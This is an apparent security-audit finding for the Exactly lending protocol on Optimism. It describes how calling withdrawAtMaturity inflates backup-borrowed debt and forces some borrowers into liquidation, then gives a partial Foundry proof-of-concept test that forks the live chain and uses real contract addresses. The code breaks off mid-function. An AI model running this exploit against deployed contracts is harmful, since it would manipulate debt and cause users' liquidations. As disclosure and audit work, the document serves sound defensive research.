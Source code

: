 ## Impact

An attacker can call `withdrawAtMaturity` to inflate the value of `floatingBackupBorrowed` and artificially increment the accrued debt that the borrowers should pay lenders on the floating pool. This attack would profit the floating lenders while causing some borrowers to go into liquidation. 

## PoC

The following PoC executes this attack on the live contracts of Exactly in the Optimism chain. The test can be pasted into a new file within a forge environment. Also, the `.env` file must include the variable `OPTIMISM_RPC_URL` for the test to run. The test can be executed with the following command:

```solidity
forge test --match-test test_backup_borrowed --evm-version cancun
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import { Market } from "protocol/contracts/Market.sol";
import { InterestRateModel } from "protocol/contracts/InterestRateModel.sol";
import { FixedLib } from "protocol/contracts/utils/FixedLib.sol";
import {Test, console2, console} from "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
}

contract TestMarket is Test {

    Market marketOP = Market(0xa430A427bd00210506589906a71B54d6C256CEdb);
    Market marketUSDC = Market(0x81C9A7B55A4df39A9B7B5F781ec0e53539694873);

    IERC20 optimism = IERC20(0x4200000000000000000000000000000000000042); 
    IERC20 usdc = IERC20(0x7F5c764cBc14f9669B88837ca1490cCa17c31607);

    uint256 public optimismFork;
    string OPTIMISM_RPC_URL = vm.envString("OPTIMISM_RPC_URL");

    function setUp() public {
        optimismFork = vm.createSelectFork(OPTIMISM_RPC_URL);
        assertEq(optimismFork, vm.activeFork());
    }

    function test_backup_borrowed() public {
        vm.rollFork(119348257); // Abr 28
        uint256 maturity = block.timestamp - (block.timestamp % 4 weeks) + 16 weeks;
        uint256 floatingLiquidity = 1_000_000e18;
        uint256 fixedLiquidity = 500_000e18;

        // Malicious user has deposited at variable rate on the OP market
        deal(address(optimism), address(this), floatingLiquidity);
        optimism.approve(address(marketOP), floatingLiquidity);
        marketOP.deposit(floatingLiquidity, address(this));
        marketOP.auditor().enterMarket(marketOP);

        vm.warp(block.timestamp + 2 weeks);

        // Simulate users borrowing from the OP market at fixed and floating rate
        address user = makeAddr("user");
        vm.startPrank(user);
```